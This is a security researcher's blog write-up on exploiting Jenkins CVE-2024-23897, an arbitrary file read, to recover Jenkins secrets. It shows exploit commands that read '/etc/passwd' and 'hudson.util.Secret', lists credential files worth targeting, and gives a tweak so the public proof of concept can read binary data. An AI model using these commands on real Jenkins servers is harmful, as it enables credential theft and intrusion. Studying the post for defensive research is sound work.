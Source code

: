 ```yaml
---
title: When US Export Restrictions Become an Advantage for Attackers (CVE-2024-23897)
date: 2024-07-02 13:33:37 +/-TTTT
categories: [crypto]
tags: [crypto,jenkins,hudson]     # TAG names should always be lowercase
image:
  path: https://s2.ezgif.com/tmp/ezgif-2-f4dfe46c67.gif
  show_in_post: true
---
```


## TL;DR:

You encountered a Jenkins instance vulnerable to CVE-2024-23897, which allows for arbitrary file read. Without credentials and with the /script endpoint inaccessible, You sought to leverage this vulnerability to gain further access through Jenkins.

## What is CVE-2024-23897?

>CVE-2024-23897 is a critical vulnerability in Jenkins that allows attackers to read arbitrary files on the Jenkins server, potentially leading to remote code execution (RCE). This vulnerability originates from the args4j library, which automatically expands file contents into command arguments when an argument begins with the "@" character.

While online resources commonly state that this vulnerability can result in RCE, they often do not elucidate the specific conditions under which this escalation can occur.

###RCE Conditions:

1. **Resource Root URL:**
   - The "Resource Root URL" functionality is enabled.
   - Attackers can retrieve binary secrets.
   - The attacker requires an API token for a (non-anonymous) user account. This user account does not need to currently possess Overall/Read permission.

2. **"Remember Me" Cookie:**
   - The "Remember me" feature is enabled (default setting).
   - Attackers possess Overall/Read permission, allowing them to read content in files beyond the initial lines.
   - Attackers can retrieve binary secrets.

3. **Remote Code Execution via CSRF Protection Bypass:**
   - Attackers can retrieve binary secrets.
   - The web session ID is not part of CSRF crumbs.

In our case, none of the above conditions were met. Additionally, the advisory mentions limitations regarding reading binary files, as detailed below:

><span style="color:red">**Limitations for reading binary files**</span>
![Jenkins Advisory Limitations of binary reading](https://ahmedsherif.github.io/assets/img/posts/2/jenkins-advisory-binary.jpg)

[Reference](https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314)

## Available exploit

There are several available POCs and the best one I tried so far was [this one](https://github.com/xaitax/CVE-2024-23897.git)

```bash
git clone https://github.com/xaitax/CVE-2024-23897.git
```

![Reading /etc/passwd](https://ahmedsherif.github.io/assets/img/posts/2/Exploit-etc-passwd.jpg)

Since we are unauthenticated users, we are only allowed to read 3 lines of any file based on the following commands

- `who-am-i`: reads the first line. 
- `enable-job`: reads second line. 
- `help`: reads the 3rd line. 

You can also execute it directly from jenkins-cli.jar that can be found in the following URL: `http://target/jnlpJars/jenkins-cli.jar`. 

```bash
java -jar jenkins-cli.jar -s http://sherif.com:9091 who-am-i '@/etc/passwd' 2>&1

ERROR: No argument is allowed: root:x:0:0:root:/root:/bin/bash
java -jar jenkins-cli.jar who-am-i
Reports your credential and permissions.

```

> During the actual assessment most likely the target needs to be accessed through tunneling (i.e. proxychains), in which `jenkins-cli.jar` will not work through but the python script. still `proxifier` can solve this on a windows machine. 
{: .prompt-warning }


## Enumeration!

Given the limitations on the files we can read, we need to identify files of interest that may partially assist us.

#### Notable Files:
- `/proc/self/environ`
- `/proc/self/cmdline`
- `${JENKINS_HOME}/credentials.xml` (Jenkins home can be found in `/proc/self`)
- `${JENKINS_HOME}/secrets/master.key`
- `${JENKINS_HOME}/secrets/initialAdminPassword`

Unfortunately, even if all the above files, including `master.key`, are obtained, they will not be sufficient.

Analyzing how Jenkins encrypts and decrypts credentials, as demonstrated in [this script](https://github.com/tweksteen/jenkins-decrypt/blob/master/decrypt.py), reveals that three components are required:

- `master.key`
- `hudson.util.Secret` (binary file)
- `encrypted credential` (e.g., `AQAAABAAAAAQmEZaw8Fv9tPlXWVQye1TR2KgF3p/wGoYs/TEQCmSxkk=`)

TBD How Jenkins do encryption and Decryption

## Analyzing retrieval of binary data

In the context of binary data retrieval, the absence of `hudson.util.Secret` presents a significant challenge. Attempts to retrieve it using the exploit mentioned above will fail, accompanied by the following error:

```python
❌ http://sherif.com:9091 not reachable: 'utf-8' codec can't decode byte 0xc6 in position 10: invalid continuation byte
```

This issue arises due to the presence of non-printable characters. However, modifying line 80 as follows resolves this:
```python
 result = response.hex()
 ```
> During research, it was observed that ippSec encountered similar issues while attempting to solve the builder machine, as highlighted in their YouTube video https://www.youtube.com/watch?v=jYCOIf9Fcmo&t=1427s. 
{: .prompt-info }


### Wireshark analysis
A Wireshark analysis was conducted to examine the retrieval of binary files. Notably, the binary file begins after the byte sequence `643a20`, with a repetitive sequence of `EFBFBD` starting from the 4th byte.


![wireshark-analysis](https://ahmedsherif.github.io/assets/img/posts/2/wireshark-dump.jpg)

> This was only the case on the testing environment, will explain more below
{: .prompt-danger}
## EFBFBD and UTF-8 conversion (�)


EF BF BD (in hex), which is the utf-8 encoding of the Unicode character U+FFFD [Replacement characters](https://www.fileformat.info/info/unicode/char/0fffd/index.htm).When decoding sequences of bytes into Unicode characters, a program may encounter a group bytes that is invalid (i.e. it does not correspond to a Unicode character). In such cases, the program has three choices: it can stop decoding and raise an error, silently skip over the invalid group of bytes, or translate the group of bytes into a special marker. This latter scheme allows most of the text to be read, but still leaves an indication that something went wrong.

coming across the blog of [errno](https://www.errno.fr/bruteforcing_CVE-2024-23897.html), it was an amazing inspiration for me. Errno had a new finding which is related to the US export restrictions, this simply means that the keys are only `128 bits / 16 bytes`. 

![US export keys](https://ahmedsherif.github.io/assets/img/posts/2/export-keys-jenkins.jpg)

## Game Over, right? 

Now after reading the code and blogpost of Errno and understanding the replacement characters, we are good to go and I was excited to start cracking the Hudson and confidentiality key. But Unfortunately that was not the case! 

Looking at the first 16 bytes in my case, clearly I can see no `EFBFBD` replacement character: 

![Jenkins-hex-hudson](https://ahmedsherif.github.io/assets/img/posts/2/Jenkins-hex-hudson.png)


> The above output is from exploiting the arbitrary file read, we can read the hudson bytes directly assuming the first bytes starts after `3a20`. The first 32 bytes are output from Jenkins-cli itself and irrelevant.
{: .prompt-tip }

You can achieve this by command line 
```bash
cat hudson.bin | tail -c +33 | head -c +16 | xxd
```
![hex-hudson-read-16bytes](https://ahmedsherif.github.io/assets/img/posts/2/Jenkins-reading-Hudson-16bytes.png)

### Repeated byte

Well, since we lost hope in our case for finding the replacement characters `EFBFBD`, we could actually assume that the hudson file did not have non-printable characters and is correct, but that was not the case since we could not decrypt our credentials with it. 

The other assumption is that we have a different encoding and replacement character could be anything else, so maybe we can try with repeated bytes?! 

```bash
dd if=hudson.bin bs=1 skip=32 count=16 2>/dev/null | xxd -p | fold -w2 | sort | uniq -c | sort -nr | head -n 1
```

![Hudson-Repeated-byte](https://ahmedsherif.github.io/assets/img/posts/2/Jenkins-repeated-byte.png)

Of course, I was not sure if this approach will work or not but that was the next logical step for me. 

```bash
cat masterkey.bin | xxd -p | tr -d '\n' | xxd -r -p | sha256sum | cut -c1-32 | sed 's/../0x&,/g'
```


```bash
java -jar ~/Downloads/jenkins-cli.jar -s http://127.0.0.1:9091 who-am-i '@/var/jenkins_home/secrets/hudson.util.Secret' 2>&1  | tail -c +33 | head -c 192 | xxd | tee hudson.bin
```
